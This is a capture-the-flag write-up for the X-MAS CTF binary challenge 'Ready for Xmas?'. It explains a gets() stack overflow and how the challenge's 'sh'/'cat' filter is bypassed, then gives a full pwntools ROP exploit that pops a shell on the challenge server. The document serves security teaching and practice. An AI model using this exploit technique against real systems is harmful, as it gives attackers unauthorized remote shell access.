








Ready for Xmas?
===============

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))
-------------------------------------------------------------

Challenge Description
---------------------

```
Are you ready for aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/bin/shawhkj\xffwaa ?
```

Process
-------

I started out by running `checksec` on the binary:



No stack canary, no code address randomization, but a non-executable stack screams return oriented programming (ROP).

After seeing this, I opened the executable in BinaryNinja. I scrolled down looking through the program's functions and noticed one notable function with no cross-references anywhere else in the code, which I renamed `do_system_call()`:



The fact that a `system()` call is already in the code means we may not have to mess with anything having to do with [libc](https://stacklikemind.io/ret2libc-aslr).

Continuing to scroll down, the `main()` function is finally found:



For now, ignore the `lock_bit` check.

The data at `cat_flag_str` is as follows:



This string is in the program memory at the beginning of the program, but it is quickly zeroed out by a `memset()` call that sets the entire string to `NULL` bytes. Because it is zeroed out, it can't be used as the string to pass to a `system()` call in a ROP chain.

After asking the user how they are doing, the program gives the user the option to input an answer. This answer, however, is obtained using an unsafe `gets()` call, which reads in data from `stdin` without limiting the size of the data. The variable that will hold the inputted data is `var_48`, which, according to the variable listing at the beginning of the `main()` decompilation, is only `0x48 - 0x8 = 0x40` (64) bytes long. 

The catch, however, is that the payload cannot contain the strings 'sh' or 'cat'. If it does, the `lock_bit` from before is changed and has `mprotect()` run on it, which kind of messes up the stack and registers so a payload would be stopped in its tracks. 

To avoid all of this, we could just use the 'sh' or 'cat' string checking to our advantage. Since this is a ROP challenge, all we would have to do is get the location of `sh_str` onto the stack and then call the previously found `system()` function. 

Because we still need to overwrite the base pointer (`rbp`), the filler data for the payload will be `0x40 + 0x8 = 0x48` (72) bytes long.

The next piece of the payload we would need is the address of a `pop rdi; ret` instruction pair since the next piece of data will be the address of `sh_str` and we need to get that onto the stack for the `system()` call.

Using [radare2](https://github.com/radareorg/radare2), we can quickly find an address of `pop rdi; ret`:



So in this case, our `pop rdi; ret` gadget address would be `0x4008e3`. 

Next, we need the address of `sh_str`, which can be found in BinaryNinja:



Now we know to use `0x400944` as the next piece of the payload.

The final component of the payload will be the address of the `call system()` instruction, which can be found in the disassembly of `do_system_call()`:



The final address for the ROP chain will then be `0x40077a`.

For a final overview, our payload should now look like this:

```
_______________________________________________________________________________
|  0x48 filler 'A's  |  addr: pop rdi  |  addr: sh_str  |  addr: call system  |
-------------------------------------------------------------------------------
```

I ultimately used a python script with [pwntools](https://github.com/Gallopsled/pwntools) to create and send the final payload:

```python
from pwn import *

first_output = 'Hi. How are you doing today, good sir? Ready for Christmas?\n'

p = remote('challs.xmas.htsp.ro',2001) # connect to remote server
p.recvuntil(first_output) # wait for prompt

system_function = 0x0040077a # address of 'call system'
pop_rdi = 0x004008e3 # address of 'pop rdi; ret'
sh_str  = 0x00400944 # address of 'sh' string

payload = b'A'*0x48 + p64(pop_rdi) + p64(sh_str) + p64(system_function) 

p.sendline(payload) # send payload
p.interactive()     # allow user to execute commands on remote server
```

After running the above script, it is possible to retrieve the flag:



Flag: `X-MAS{l00ks_lik3_y0u_4re_r3ady}`